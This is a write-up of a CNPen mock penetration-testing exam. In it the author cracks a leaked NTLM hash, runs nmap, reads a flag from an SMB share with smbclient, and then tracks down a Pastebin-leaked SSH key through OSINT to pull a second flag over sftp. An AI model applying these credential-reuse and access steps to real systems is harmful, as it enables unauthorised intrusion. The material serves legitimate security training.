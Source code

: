 ```yaml
---
layout: post
title: "[CNPen] CNPen Mock Exam Writeup"
categories: hacking writeup network samba windows
---
```


# Introduction
I encountered those "challenges" when doing the mock exam for CNPen. They were not hard at all, but I did learn something interesting to share.

# First part
In the first part of the exam, they provided a leaked hash `94643dacaa6b1b9cd9724ddb050b5f01` for a user named `Peter`.
After successfully cracking the hash on [https://crackstation.net](https://crackstation.net/) I retried the password
I also knew that the type of the hash was NTLM

![Crack station](/assets/images/cnpen/cs1.png)

I did an nmap scan to look for running services
```
rzy@L4SPC % nmap -Pn -sV -p1-10000 s1.cnpen-mock.secops.group                                                         ~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-14 19:58 CDT
Nmap scan report for s1.cnpen-mock.secops.group (54.172.231.84)
Host is up (0.055s latency).
rDNS record for 54.172.231.84: ec2-54-172-231-84.compute-1.amazonaws.com
Not shown: 9998 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
4455/tcp open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.44 seconds
```

Next, I'll try the RDP one on port 3389

![RDP1](/assets/images/cnpen/rdp1.png)

Let's try the other one, I know that `microsoft-ds` service is for file sharing, so let's install Samba and connect to the service

```
rzy@L4SPC % smbclient -U peter -p 4455 -L s1.cnpen-mock.secops.group                                                  ~
Password for [WORKGROUP\peter]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        secret          Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to s1.cnpen-mock.secops.group failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```
It didn't connect but it showed me a list of shared objects. Let's try smbclient with different arguments.

```
rzy@L4SPC % smbclient -U peter -p 4455 //s1.cnpen-mock.secops.group/secret                                            ~
Password for [WORKGROUP\peter]:
Try "help" to get a list of possible commands.
smb: \> get Secret.txt
getting file \Secret.txt of size 66 as Secret.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \>
rzy@L4SPC % cat Secret.txt                                                                                            ~
flag{HbzBNrndXmTG3d6XwXdwchNpGBbUCRtLzeHrZaTvrQBpexpAZU7tuChxXGv7}%
```
# Second part
The second part of the exam was about OSINT. My objective is to find the leaked SSH key with one clue: `www.certharvest.com`
I used [WHOIS](https://www.whois.com/whois/certharvest.com) and `nslookup` to look for more info. Interestingly, it points to `localhost`.
```
rzy@L4SPC % nslookup www.certharvest.com                                                                              ~
Server:         172.22.208.1
Address:        172.22.208.1#53

Non-authoritative answer:
www.certharvest.com     canonical name = certharvest.com.
Name:   certharvest.com
Address: 127.0.0.1
```
I tried Duckduckgo to search for certharvest (because Google returned not much interesting information) and I found something intriguing: a Twitter (X) account that has posts about OSINT. Coincidence? I don't think so
![x1](/assets/images/cnpen/x1.png)

![x2](/assets/images/cnpen/x2.png)

One more clue: the email address `certharvest@proton.me`
I tried to search on Github, and there was a repo named certharvest, but no sensitive information found! Let's try search Pastebin instead. And right of the bat:
![Pastebin](/assets/images/cnpen/pb1.png)

Now the last challenge is to use the ssh key to get to somewhere, specifically to read the flag on `s2.cnpen-mock.secops.group`

After setting up the key, let's go get the flag:

```
rzy@L4SPC % sftp -P 222 alice@s2.cnpen-mock.secops.group                                                              ~
Connected to s2.cnpen-mock.secops.group.
sftp> ls
alice
sftp> cd alice/
sftp> ls
flag.txt
sftp> get flag.txt
Fetching /alice/flag.txt to flag.txt
flag.txt                                                                              100%   67     0.7KB/s   00:00
sftp> ^D
rzy@L4SPC % cat flag.txt                                                                                              ~
flag{j7j9wTek9Mevc48NfNJD4eAWhi6FQRfaW22irWAcu2NBiVTcuHJ7qHA9g6tH}
```
And done!